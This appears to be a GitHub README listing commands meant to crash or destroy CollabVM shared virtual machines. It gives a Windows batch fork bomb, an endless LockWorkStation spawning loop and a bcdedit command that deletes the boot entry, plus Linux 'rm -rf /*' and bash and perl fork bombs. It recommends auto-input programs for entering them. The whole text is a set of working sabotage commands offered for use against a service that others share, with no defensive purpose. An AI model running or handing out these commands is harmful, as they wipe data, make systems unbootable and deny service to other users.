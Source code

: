 # Commands that destroy CollabVM virtual machines

To crash the VM, you must execute one of them in the "Run" window or in the command line (cmd). To do this, it is strongly recommended to use auto-input programs.

## Windows

1. Classic fork bomb. May be closed.

```batch
cmd /c echo %0^|%0>1.bat&1.bat
```

2. Infinite blocking of the windows user + pseudo fork bomb. Unclosable, only reboot helps.

```batch
cmd /k for /l %x in (1, 1, 9999999) do (start cmd /k rundll32 user32,LockWorkStation)
```

3. Delete windows from bootloader and reboot (the system will no longer be able to boot. Run from cmd with admin privileges (RMB on cmd -> Run as admin).

'''batch
cmd /k bcdedit /delete {current}&wmic os primary=1 reboot
'''

## Linux

You must run "Terminal" program and execute command there.

1. Needs no introduction

'''bash
sudo rm -rf /*
'''

2. Bash fork bomb. May not work due to fork restrictions.

'''bash
:(){ :|:& };:
'''

3. Perl fork bomb. May not work due to fork restrictions.

'''bash
perl -e "fork while fork" &
'''
